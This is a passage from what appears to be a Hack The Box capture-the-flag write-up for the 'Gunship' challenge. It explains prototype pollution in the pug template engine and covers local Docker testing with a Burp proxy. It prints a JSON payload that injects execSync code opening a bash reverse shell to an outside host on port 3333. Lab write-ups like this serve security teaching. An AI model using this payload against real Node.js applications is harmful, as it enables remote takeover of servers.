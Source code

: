 If you recall back to earlier, we reviewed the `package.json` and saw that `pug` was vulnerable to a Remote Code Execution vulnerability but we couldn't immediately find an exploit for it... well we just found the exploit which is essentially the following JSON blob:

```bash
{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
}
```

As the vulnerabilities we saw earlier suggested, there is an issue in the way that templates are managed in NodeJS and subsequently in the compiler `pug` uses parses values, you can read more about it on the linked post, but it effectively boils down to the following quote, and the JSON blob above:

> Any AST can be inserted in the function by making it insert during the Parser or Compiler process.
{: .prompt-info }

## Testing

To actually test this before smashing the live instance with all kinds of payloads we can run it locally using the provided Docker image.

```bash
docker build -t htb/gunship .

# I recommend not running in "daemon" mode (-d) so you can actually see error messages
docker run --rm -p 1337:1337 htb/gunship
```

Once that's up and running we have a nice refreshable environment to test in, just hit Ctrl+C or run `docker stop <image-name>` to close and then just reopen.

If you're feeling fancy and you plan to be working from the terminal, scripting and/or using things like `curl` to figure this one out, then you might want to proxy your whole command line to BurpSuite so you can see what's being sent up and make corrections where necessary. You can do this with the following lines in your Bash terminal:

```bash
export http_proxy="127.0.0.1:8080"
export https_proxy="127.0.0.1:8080"
```

Now that we're all setup we can get into actually doing some exploiting.

## Exploitation

I'll cover two methods, one is essentially just an automated version of the other, but it's nice to see things being done in multiple ways, and the programatic way tends to reveal a bit more of the method behind the exploit.

If you've also not quite figured out what's going on, we're abusing an exploit called "Prototype Pollution", there is a really good paper linked above somewhere if you want to dig a bit deeper. I can't *really* TL;DR it because it's a dense subject, but it comes down to a quirk of JavaScript whereby all objects have this thing called a `prototype`, which tells the JS runtime engine which functions are available to that object, so far so good. The quirk lies in the fact that this `prototype` is not a static thing and at any point new functions can be added, modified or removed, and that's what we're abusing. We're going to inject a bit of JSON into the runtime process that forces the compiler to accept input from a new function that does something within our control.
